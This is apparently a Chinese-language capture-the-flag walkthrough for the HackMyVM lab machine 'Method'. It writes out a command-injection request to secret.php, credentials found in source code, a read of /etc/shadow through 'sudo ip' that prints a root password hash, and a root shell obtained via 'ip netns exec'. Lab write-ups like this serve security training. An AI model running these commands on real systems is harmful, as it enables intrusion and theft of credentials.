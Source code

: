 # Method

2024.12.31 https://hackmyvm.eu/machines/machine.php?vm=Method

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

扫描 80 web 服务，发现 http://192.168.5.40/note.txt :

```
just find three kings of blues
then move to the crossroads
-------------------------------
-abuzerkomurcu
```

http://192.168.5.40/index.htm 发现其中有参数:HackMyVM 并且提交到了 secret.php

http://192.168.5.40/secret.php 跳转到了一个图片 https://images-na.ssl-images-amazon.com/images/I/31YDo0l4ZrL._SX331_BO1,204,203,200_.jpg 从图片中没找到隐写信息。

对这个 secret.php 页面进行提交，看看是否有 rce：

```
curl http://192.168.5.40/secret.php -d 'HackMyVM=ls'
```

发现可以命令执行，直接反弹 shell。

直接得到了 user flag:

```
www-data@method:/home/prakasaka$ cat uSeR.txt
e4408105ca9c2a5c2714a818c475d06F
```

在 secret.php 中发现了用户凭据：

```
$ok="prakasaka:th3-!llum!n@t0r";
```

切换到 prakasaka 用户，sudo -l 发现：

```
(!root) NOPASSWD: /bin/bash
(root) /bin/ip
```

使用 sudo ip 读取 /etc/shadow 文件：

```
sudo ip -force -batch /etc/shadow

root:$y$j9T$yE6jN0atwMbWnXRq0EM4a.$XBuLCI7wuKHbL35hX6OAf7C4jFDp/hypsQUj8nDnBt6:18923:0:99999:7:::
```

但是哈希有问题，破解不出来，使用 GTOF 中另外一种方式：

```
sudo ip netns add foo
sudo ip netns exec foo /bin/sh
```

得到了 root flag:

```
# cat rOot.txt
fc9c6eb6265921315e7c70aebd22af7F
```
